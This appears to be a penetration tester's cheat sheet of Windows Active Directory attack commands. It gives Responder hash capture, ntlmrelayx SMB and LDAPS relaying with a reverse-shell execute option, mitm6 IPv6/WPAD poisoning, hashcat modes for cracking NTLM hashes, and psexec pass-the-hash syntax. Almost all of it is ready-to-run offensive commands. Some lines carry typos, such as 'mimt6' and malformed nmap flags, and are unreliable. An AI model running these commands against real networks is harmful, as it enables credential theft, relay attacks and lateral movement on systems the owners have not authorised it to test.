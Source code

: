# responder.py
sudo responder -I eth0 -dwv



for SMB Relay 
disable responding on smb and http edit /usr/share/responder/Responderr.conf

## on windows
you can get user ntlm hash after getting reverse shell on a target using responder and sending gci command 
```powershell

sudo responder -I eth0
gci \\10.10.10.10\test\test

```
## ntlmrelayx.py
ntlmrelayx.py -tf targets.txt -smb2support
-i for interactive shell
-e to execute a file (msfvenom rev shell etc.)
-c command (e.g. whoami)
-6 for IPv6
-t target 
-l loot
IPv6 ldaps attack e.g. ntlmrelayx.py -6 -t ldaps://IP -wh (for wpad) fakewpad.marvel.local -l lootme


### nmap check
nmap script to check for smb signing disabled
nmap --script =smb2-security-mode.nse p445 IP/RANGE


# hashcat
hashcat -m # hash code -a ATTACKTYPE 0 or empty hashfile wordlist 
NTLM 1000
NTLMv2 5600



# psexec.py or metasploit #passhash
    used for: 
	    1- passing hashes
		2- creates a remote service by uploading a randomly-named executable to the hidden Windows ADMIN$ share, registering a service via RPC and the Windows Service Control Manager, and then communicating over named a named pipe
	usage 1 : 
	    psexec.py USUERNAME:@IP -hashes HASH
	usage 2 :
	  psexec.py SHARE/ADMIN_ACCOUNT:"PASSWORD\!"@IP
	usage 3 :
      psexec.py DOMAIN/USERNAME:PASSWORD@IP 

More tools like psexec :

*Less noisy start with these smbexec/wmiexec*

# mitm6
```
mimt6 -d DOMAIN
```
then start relay attack using ntlmrelayx.py

```
ntlmrelayx.py -6 -t ldaps://DC_IP -wh fakewpad.DOMAIN -l loot
```